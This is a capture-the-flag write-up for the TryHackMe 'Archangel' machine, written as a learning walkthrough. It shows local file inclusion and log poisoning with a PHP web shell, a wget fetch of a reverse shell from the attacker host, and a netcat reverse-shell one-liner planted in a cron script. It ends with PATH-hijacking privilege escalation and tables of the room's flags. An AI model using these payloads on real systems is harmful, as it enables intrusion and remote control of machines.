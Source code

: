 # Archangel
## 12-06-2022
## level : easy

## Get a Shell

> we need to add the domain name into our `hosts` file
```
sudo nano /etc/hosts
```
> then add the following line at the end of the file
```
10.10.6.140 mafialive.thm
```

> now just open the domain in browser and we can see the flag 1
> now let's use `gobuster` to search for files and folders within the site
```
gobuster dir -u mafialive.thm -w /usr/share/wordlists/dirb/common.txt -x php,txt
```
> as we have tried all the lfi techniques but the `base64-encoding` one works. we will now see the source code for the pages
```
http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php
```
> in the code we can see that the flag is commented out.

> to use lfi we will use `..//..//` instead of `../../` this will bypass the php file protection
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../etc/passwd
```

> now we intercept the request to burp and upload a payload using the user agent.
```
<?php system($_GET['cmd']) ?>
```
> we downloaded a php reverse shell payload and changed the ip to our local machine vpn ip and set the port to 1234.

> now we will upload a php reverse shell to the target. first we will start a local server
```
sudo python -m http.server 80
```
> now to upload the file we will browse this link 
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=wget%20http://10.17.48.110/shell.php
```

> now after uploading the file we will start a netcat listener on our local machine.
```
nc -lvnp 1234
```
> now to get a reverse shell we will just browse the following link
```
http://mafialive.thm/test.php?view=/var/www/html/development_testing/..//..//..//../var/log/apache2/access.log&cmd=php%20shell.php
```

> now as we got the shell into our target. lets stabilize it
```
python3 -c 'import pty; pty.spawn("/bin/bash")'

export TERM=xterm-color

```
| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|
| Find a different hostname | mafialive.thm |
| Find Flag 1 | thm{f0und_th3_r1ght_h0st_n4m3} |
| Look for a page under development | test.php |
| Find flag 2 | thm{explo1t1ng_lf1} |
| Get a shell and find the user flag | thm{lf1_t0_rc3_1s_tr1cky} |



## Root the machine

> so after having the first shell into the target we have looked into the crontab file and it works for us.
```
cat /etc/crontab

```
> now we noticed that there is a file that is running every minute in the crontab file.
> we wrote some payload into the crontab file 
```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.48.110 4444 >/tmp/f" > /opt/helloworld.sh
```
> now in our local machine just open a new netcat listener on the port`4444` and wait for a few minute to run the cronjob.
```
nc -lvnp 4444
```
> after getting the shell lets now stabilize the shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
export TERM=xterm-color

```

> now we have got a shell as the `archangel` user.

> now inside the `secret` folder we can see that there is a binary which is running the `cp` command. so now let's use the file and manipulate the path to escalate the privileges.

> lets create a local file named `cp` and make this file executable
```
echo "/bin/bash" > cp

chmod +x cp
```

> lets manipulate the path variable
```
export PATH=.:$PATH
```

> now if we run the `backup` file it will now run the `cp` command from current direcroty instead of the original one and we will have the root privileges.







| Qu3$t10n$ | 4n$w3r$ |
|-----------|---------|| 
| Get User 2 flag | thm{h0r1zont4l_pr1v1l3g3_2sc4ll4t10n_us1ng_cr0n} |
| root flag | thm{p4th_v4r1abl3_expl01tat1ion_f0r_v3rt1c4l_pr1v1l3g3_3sc4ll4t10n} |






# -----------------------    THE END    -----------------------
